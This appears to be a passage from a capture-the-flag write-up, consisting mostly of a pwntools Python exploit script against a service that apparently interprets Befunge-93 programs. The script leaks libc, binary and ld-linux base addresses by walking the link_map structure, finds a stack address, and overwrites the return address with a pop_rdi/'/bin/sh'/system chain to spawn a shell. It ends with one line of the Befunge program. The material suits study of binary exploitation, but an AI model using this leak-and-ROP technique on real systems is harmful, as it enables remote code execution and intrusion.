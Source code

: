 ```python
    r.recvuntil("> > > > > > > > > > > > > > > > > > > > > > > > ")

    # leak libc
    libc_main = leak_addr(-48, -2, "libc_main")
    libc_base, system, bin_sh = None, None, None
    # for local
    if LOCAL:
        libc.address += libc_main - libc.symbols['__libc_start_main']
        libc_base = libc.address
        system = libc.symbols['system']
        bin_sh = str_addr("sh\x00", libc)
    # for remote
    else: 
        libc_base = libc_main - 0x21e50
        system = libc_base + 0x0000000000046590
        bin_sh = libc_base + 0x17c8c3

    # leak text base
    text_base = leak_addr(-56, -9, "text_base")
    text_base -= 0xb00

    log.info("libc_base: "+hex(libc_base))
    log.info("text_base: "+hex(text_base))
    
    # leak r_debug
    r_debug = leak_addr(0, -7, "r_debug")
    log.info("r_debug: "+hex(r_debug))

    # traverse link_map structure & leak ld-linux.so base address
    link_map_addr = r_debug + 8
    link_map_text = leak_far_addr(link_map_addr, text_base, "link_map_text")
    log.info("link_map_text: "+hex(link_map_text))
    link_map_vdso = leak_far_addr(link_map_text+24, text_base, "link_map_vdso")
    log.info("link_map_vdso: "+hex(link_map_vdso))
    link_map_libc = leak_far_addr(link_map_vdso+24, text_base, "link_map_libc")
    log.info("link_map_libc: "+hex(link_map_libc))
    link_map_ld = leak_far_addr(link_map_libc+24, text_base, "link_map_ld")
    log.info("link_map_ld: "+hex(link_map_ld))
    ld_base = leak_far_addr(link_map_ld, text_base, "ld_base")
    log.info("ld_base: "+hex(ld_base))
    # leak __libc_stack_end in ld-linux.so, get stack address
    LD.address += ld_base
    log.info("libc_stack_end: "+hex(LD.symbols['__libc_stack_end']))
    stack_addr = leak_far_addr(LD.symbols['__libc_stack_end'], text_base, "stack addr")
    log.info("stack_addr: "+hex(stack_addr))
    
    pop_rdi = text_base + 0x000000000000120c
    ret_addr = stack_addr - 216
    log.info("ret_addr: "+hex(ret_addr))
    log.info("pop_rdi: "+hex(pop_rdi))
    log.info("bin_sh: "+hex(bin_sh))
    log.info("system: "+hex(system))
    
    # overwrite return address
    write_far_addr(ret_addr, text_base, "ret_addr", pop_rdi)
    write_far_addr(ret_addr+8, text_base, "ret_addr+8", bin_sh)
    write_far_addr(ret_addr+16, text_base, "ret_addr+16", system)

    r.interactive()
```
`bbb` is the Befunge-93 program I used to exploit the service : 
```text
>                                    v
```